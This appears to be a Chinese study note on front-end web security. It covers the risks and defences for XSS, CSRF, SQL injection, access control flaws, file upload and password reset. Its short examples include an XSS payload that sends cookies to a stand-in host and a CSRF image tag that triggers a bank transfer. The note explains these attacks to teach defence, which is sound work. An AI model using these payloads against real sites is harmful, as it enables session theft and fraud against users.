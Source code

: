 ## 前端安全
### XSS跨站脚本
#### 危害
1. 网络钓鱼，盗取各类用户账号
2. 盗取cookie，从而获取用户隐私信息，利用用户身份进一步对网站进行操作
3. 劫持用户（浏览器）会话， 从而执行任意操作，如进行非法转账、发表日志、发送电子邮件等
4. 网页挂马
5. 进行恶意操作，例如篡改页面信息、删除文章等。
6. 进行大量的客户端攻击，DDOS
7. 获取客户端信息，如用户的浏览历史、真实IP、开放端口等 
8. 控制受害者机器向其他网站发起攻击
9. 结合其他漏洞，如csrf，实施进一步作恶
10. 提升用户权限，包括进一步渗透网站
11. 传播跨站脚本蠕虫等
#### 分类
1. 反射型
2. 存储型
#### 防范
1. HttpOnly 防止截取Cookie(后台容器设置)
2. 输入检查
3. 输出检查 - 服务端转义

#### 举例
1. 某网站搜索框
```js
// 在搜索框里输入关键字 <script>alert(1)</script>
// 后台没有做过滤 返回相应的搜索关键字  http://www.xxx.com?keyword=<script>alert(1)</script>
// 页面会弹出框1
// 升级为危险的代码<script>document.location='http://xss.com/get?cookie='+document.cookie</script>
```
反射型是需要用户输入的
存储型是不需要输入的，在加载网页代码的时候就已经执行了
   
### CSRF跨站请求伪造
#### 危害
1. 以你的名义发送邮件
2. 购买商品
3. 虚拟货币转账
#### 原理
1. 攻击者盗用了你的身份，以你的身份发送恶意请求
#### 防范
1. 加密cookie
2. cookie有效期
3. 表单增加hash值
4. token
5. referer
6. post请求
7. 验证码
#### 举例
```js
// 用户登录网银A 留下了会话
// 用户访问危险网站B，B里有一段危险代码
<img src='http://www.bank.com/transfer.php?bankId=111&money=10000' />
// 自动加载这段代码，B访问A并带上相应的会话信息，A经过验证，进行转帐操作
```

### SQL注入
#### 危害
1. 获取网站数据
2. 通过mysql写入文件，getshell
#### 原理
直接修改sql语句进行操作
#### 防范
优化获取参数和执行sql

### 越权访问
#### 危害
1. 查看、修改、删除他人信息
2. 进行其他未授权操作（冒充用户、提取账号余额等）

#### 原因
1. 开发人员对客户端请求的数据过分相信，遗漏判断
#### 防范
1. 用户是否有权限访问该页面
2. 用户是否有操作权限
3. 根据保存在会话里的ID判断是否有权限

### 短信验证码
#### 原因
未做限制，短时间被大量发送
#### 防范
服务器端一段时间内对一个号码做限定次数

### 任意文件上传漏洞
#### 危害
1. 针对上传功能的dos攻击
2. 上传的文件在服务器上被执行，导致服务器沦陷
3. 诱使用户下载恶意文件
#### 防范
1. 文件上传目录不可执行
2. 判断文件类型
3. 使用随机数改写文件名和文件路径
4. 单独设置文件服务器的域名
### 任意用户密码重置
#### 危害
暴力破解
#### 防范
1. 限制验证码尝试次数
2. 增加短信验证码长度
3. 图形验证码
4. 增加随机数


整理了一下前端安全问题，看导图  
![前端安全](./common.png)